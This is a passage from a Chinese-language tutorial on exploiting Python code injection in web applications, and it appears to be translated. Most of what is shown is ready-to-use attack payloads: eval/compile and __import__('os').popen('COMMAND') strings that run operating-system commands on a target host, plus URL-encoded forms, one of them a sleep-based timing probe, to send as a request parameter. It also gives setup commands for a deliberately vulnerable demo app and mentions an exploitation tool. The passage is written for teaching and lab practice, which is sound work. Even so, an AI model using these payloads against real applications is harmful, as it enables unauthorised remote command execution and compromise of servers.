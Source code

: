 那么你就可以使用下面这个Payload来在目标主机中实现操作系统指令注入了：

```
eval(compile("""for x in range(1):\n import os\n os.popen(r'COMMAND').read()""",'','single'))
```

实际上，你甚至都不需要使用for循环，直接使用全局函数“__import__”就可以了。具体代码如下所示：

```
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
```

其实我们的Payload代码还可以更加简洁，既然我们已经将import和popen写在了一个表达式里面了，那么在大多数情况下，你甚至都不需要使用compile了。具体代码如下所示：

```
__import__('os').popen('COMMAND').read()
```

为了将这个Payload发送给目标Web应用，你需要对其中的某些字符进行URL编码。为了节省大家的时间，我们在这里已经将上面所列出的Payload代码编码完成了，具体如下所示：

```
param=eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22for%20x%20in%20range%281%29%3A%5Cn%20import%20os%5Cn%20os.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22__import__%28%27os%27%29.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=__import__%28%27os%27%29.popen%28%27COMMAND%27%29.read%28%29
```

接下来，我们将会给大家介绍关于这个漏洞的细节内容，并跟大家分享一个包含这个漏洞的Web应用。在文章的结尾，我将会给大家演示一款工具，这款工具是我和我的同事Charlie共同编写的，它可以明显降低你在利用这个漏洞时所花的时间。简而言之，这款工具就像sqlmap一样，可以让你快速找到SQL注入漏洞，不过这款工具仍在起步阶段，感兴趣的同学可以在项目的GitHub主页[[传送门]](https://github.com/sethsec/PyCodeInjection)中与我交流一下。

<br>

**搭建一个包含漏洞的服务器**

为了更好地给各位同学进行演示，我专门创建了一个包含漏洞的Web应用。如果你想要自己动手尝试利用这个漏洞的话，你可以点击[这里](https://github.com/sethsec/PyCodeInjection)获取这份Web应用。接下来，我们要配置的就是Web应用的运行环境，即通过pip或者easy_install来安装web.py。它可以作为一台独立的服务器运行，或者你也可以将它加载至包含mod_wsgi模块的Apache服务器中。相关操作指令如下所示：

```
git clone https://github.com/sethsec/PyCodeInjection.git
cd VulnApp
./install_requirements.sh
python PyCodeInjectionApp.py
```

**<br>**

**漏洞分析**
